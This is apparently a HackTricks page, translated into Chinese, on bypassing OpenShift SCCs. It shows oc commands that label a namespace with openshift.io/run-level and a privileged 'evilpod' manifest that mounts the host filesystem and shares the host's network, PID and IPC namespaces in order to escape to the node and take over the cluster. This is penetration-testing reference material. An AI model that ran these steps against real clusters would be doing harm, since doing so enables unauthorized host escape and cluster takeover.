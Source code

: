# Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**该页面的原作者是** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 特权命名空间

默认情况下，SCC 不适用于以下项目：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

如果您在这些命名空间之一中部署 pod，将不会强制执行 SCC，从而允许部署特权 pod 或挂载主机文件系统。

## 命名空间标签

根据 RedHat 文档，有一种方法可以禁用 pod 上的 SCC 应用。您需要至少拥有以下权限之一：

- 在此命名空间中创建命名空间并创建 pod
- 编辑命名空间并在此命名空间中创建 pod
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定标签 `openshift.io/run-level` 使用户能够绕过应用程序的 SCCs。根据 RedHat 文档，当使用此标签时，该命名空间内的所有 pod 都不执行任何 SCCs，有效地移除了任何限制。

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 添加标签

要在您的命名空间中添加标签：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
通过 YAML 文件创建带标签的命名空间：
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
现在，在命名空间中创建的所有新 pod 不应具有任何 SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

在没有 SCC 的情况下，您的 pod 定义没有任何限制。这意味着可以轻松创建恶意 pod 以逃逸到主机系统上。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
现在，提升权限以访问主机系统并随后接管整个集群，获得“cluster-admin”权限变得更加容易。请在以下页面中查找 **Node-Post Exploitation** 部分：

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### 自定义标签

此外，根据目标设置，某些自定义标签/注释可能与之前的攻击场景以相同方式使用。即使不是专门为此而设计，标签也可以用于授予权限，限制或不限制特定资源。

如果您可以读取一些资源，请尝试查找自定义标签。以下是一些有趣的资源列表：

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 列出所有特权命名空间
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 高级利用

在 OpenShift 中，如前所示，拥有在带有 `openshift.io/run-level` 标签的命名空间中部署 pod 的权限可能导致对集群的简单接管。从集群设置的角度来看，这一功能 **无法被禁用**，因为它是 OpenShift 设计的固有部分。

然而，像 **Open Policy Agent GateKeeper** 这样的缓解措施可以防止用户设置此标签。

为了绕过 GateKeeper 的规则并设置此标签以执行集群接管，**攻击者需要识别替代方法。**

## 参考文献

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
